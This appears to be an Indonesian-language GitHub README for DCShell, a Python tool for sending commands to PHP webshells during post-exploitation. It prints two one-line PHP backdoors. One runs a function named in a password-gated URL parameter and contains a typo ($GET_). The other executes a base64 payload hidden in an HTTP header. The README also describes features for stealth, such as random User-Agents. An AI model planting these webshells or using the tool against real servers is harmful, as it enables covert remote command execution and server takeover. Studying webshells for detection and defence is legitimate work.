 ![image](https://github.com/user-attachments/assets/b5eac3e2-eb02-4f29-a604-47a8264f23b6)

# 🛠️ DCShell v.1
DCShell adalah sebuah tools berbasis Python yang dirancang untuk mempermudah interaksi dengan webshell dalam skenario pengujian penetrasi (pentest). Tools ini menyediakan antarmuka berbasis terminal yang ramah pengguna serta mendukung dua mode eksekusi shell, yaitu:
- Rootkit Mode: Mengakses webshell yang dilindungi dengan password, di mana perintah dieksekusi melalui parameter URL.
  ```
  <?=$_GET[p]==_&&$_GET[f]($GET_[c]);
  ```
  
- Raptor Mode: Mengakses webshell yang menerima payload melalui header HTTP, di mana perintah dienkode dalam base64 dan disisipkan secara acak dalam header khusus.
  ```
  <?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
  ```

# 🎯 Tujuan Penggunaan
DCShell ditujukan untuk mempermudah eksekusi perintah sistem di server target melalui webshell secara stealthy, cepat, dan fleksibel. Cocok digunakan saat fase post-exploitation dalam pengujian keamanan aplikasi web, terutama ketika backdoor atau akses awal telah diperoleh.

# ⚙️ Fitur Unggulan
- 🔐 Dukungan password untuk webshell (mode Rootkit)
- 🧬 Payload base64 via header (mode Raptor)
- 🎛️ Pilihan fungsi PHP: system, passthru, shell_exec, dan exec
- 🎲 User-Agent acak otomatis untuk menyamarkan traffic
- 💻 Antarmuka interaktif dengan visualisasi tabel menggunakan rich
- 🚀 Loop perintah real-time seperti shell di terminal

# 💡 Usage
1. Pengguna memilih mode shell (Rootkit/Raptor).
   ![image](https://github.com/user-attachments/assets/20915e32-5c00-4bab-83ef-8bf9f0838a35)
3. Memasukkan URL shell dan informasi tambahan (seperti password).
   ![image](https://github.com/user-attachments/assets/04aa926f-9cfd-49d9-951f-3941691e551c)
5. Memilih metode eksekusi fungsi PHP.
6. Memasukkan perintah-perintah sistem untuk dieksekusi di server target.
7. Tools akan mengirim permintaan HTTP ke webshell dan menampilkan output di terminal.
8. Final
   ![image](https://github.com/user-attachments/assets/78668640-8523-4d1f-8291-28cedee69adc)

The DCShell project is licensed under MIT license which basically means you have to give me credit if you want to redistribute or modify it.
